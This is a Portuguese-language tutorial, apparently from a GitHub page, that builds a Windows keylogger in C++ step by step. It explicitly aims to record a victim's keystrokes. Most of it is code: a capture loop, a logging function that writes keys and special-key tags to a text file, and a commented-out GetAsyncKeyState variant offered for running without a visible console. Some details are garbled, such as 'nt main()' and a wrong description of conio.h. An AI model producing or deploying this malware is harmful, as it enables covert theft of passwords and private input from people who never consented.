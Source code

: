 **Start Building**

Primeiro precisamos saber, o que temos que fazer? A resposta é um pouco óbvia: Precisamos capturar as teclas 
digitadas pela vítima no teclado e, em seguida, armazená-las em um arquivo de texto ou de log para processar posteriormente.

Então, vamos na nossa IDE, começamos apagando o default e colocando as bibliotecas que vamos utilizar:


```
#include <windows.h> 
#include <iostream> 
#include <fstream> 
#include <conio.h>

using namespace std;
```

Porque vamos essas bibliotecas?



1. A biblioteca **`windows.h`** contém declarações para todas as funções da API do Windows, todos os macros comuns utilizados pelos programadores do Windows, e todos os tipos de dados utilizados pelas várias funções e subsistemas. Ela possibilita você a fazer coisas como: Criar janelas e botões, enumerar arquivos de um diretório, consultar informações sobre o sistema(eg processos, serviços, janelas) e etc.
2. A biblioteca padrão de entrada e saída do C++ é a **`iostream`**. Ela deverá ser incluída no início de todo código em C++, porém, para maratonas, o ideal é que se use cabeçalho que inclui todas as bibliotecas padrões do C++ e também do C: bits/stdc++.h Apesar disso, busque saber quais bibliotecas seu programa realmente irá usar.
3. A biblioteca **`fstream`** é a biblioteca padrão para entrada e saída de dados em C++(este conjuga os dois tipos anteriores, “input and output to file”. cria ficheiros (arquivos), escreve e lê informação dos mesmos.
4. E por fim a necessária para que possamos manipular strings, **`conio. h`** que é um uma biblioteca(arquivo cabeçalho) de C usado principalmente por compiladores MS-DOS para fornecer input / output console, as funções do conio são úteis para manipular caracteres na tela, especificar cor de carácter e de fundo.

Então aqui incluímos todas as bibliotecas importantes, agora vamos declarar a função que irá armazenar todas as teclas digitadas:


```
int keys(char key, fstream&);
```

Agora vamos iniciar a função main:



```
nt main(){

  char key_press;
  int ascii_value;

  fstream afile;

  afile.open("key_file.txt", ios::in | ios::out);
  afile.close();

  while(true){

    /* Block 1 Starts */
    key_press = getch();
    ascii_value = key_press;
    cout << "Here --> " << key_press << endl;
    // cout << "Async --> " << ascii_value << endl;
    if(7 < ascii_value && ascii_value < 256){
      keys(key_press, afile);
    }
    /* Block 1 Ends */


    /* Block 2 Starts */

    // for(int i=8; i<256; i++){
    //   if(GetAsyncKeyState(i) == -32767){
    //     keys(i, afile);
    //   }
    // }

    /* Block 2 Ends */
  }
  return 0;
}
```

Aqui usamos `getch()` para capturar as teclas digitadas. Isso permitirá que a janela do console apareça e capture todas as teclas pressionadas e mostre-as como saída. Mas se você não quiser que esta janela do console apareça e apenas armazene as teclas digitadas diretamente no arquivo, isso é possível usando o método `GetAysncKeyState()`.

`GetAysncKeyState()` (Method Windows) determina se uma tecla está ativa ou inativa no momento em que a função é chamada e se a tecla foi pressionada após uma chamada anterior para `GetAysncKeyState`.

Agora definiremos o método de teclas para armazenar todas as teclas capturadas em um texto ou podemos dizer um arquivo de log.

Portanto, este method `keys()` armazenará todas as chaves dentro do arquivo, incluindo as chaves especiais.


```
int keys(char key, fstream& file){

  file.open("key_file.txt", ios::app | ios::in | ios::out);
  if(file){
    if(GetAsyncKeyState(VK_SHIFT)){
      file << "[SHIFT]";
    }
    else if(GetAsyncKeyState(VK_ESCAPE)){
      file << "[ESCAPE]";
    }
    else if(GetAsyncKeyState(VK_RETURN)){
      file << "[ENTER]";
    }
    else if(GetAsyncKeyState(VK_CONTROL)){
      file << "[CONTROL]";
    }
    else if(GetAsyncKeyState(VK_MENU)){
      file << "[ALT]";
    }
    else if(GetAsyncKeyState(VK_DELETE)){
      file << "[DELETE]";
    }
    else if(GetAsyncKeyState(VK_TAB)){
      file << "[TAB]";
    }
    else if(GetAsyncKeyState(VK_BACK)){
      file << "[BACKSPACE]";
    }
    else{
      file << key;
    }
  }

  file.close();

  return 0;
}

```

Portanto, neste método abrimos um arquivo usando um ponteiro de objeto de arquivo e então conforme a tecla pressionada, este código irá digitá-los dentro do arquivo e salvá-los em cada um e todas as chamadas da função principal.

Se uma tecla especial for pressionada (ou seja, Enter, Shift, Backspace), então este método digitará [Tecla especial] dentro do arquivo para saber que uma tecla especial foi pressionada enquanto o keylogger estava capturando as teclas digitadas.



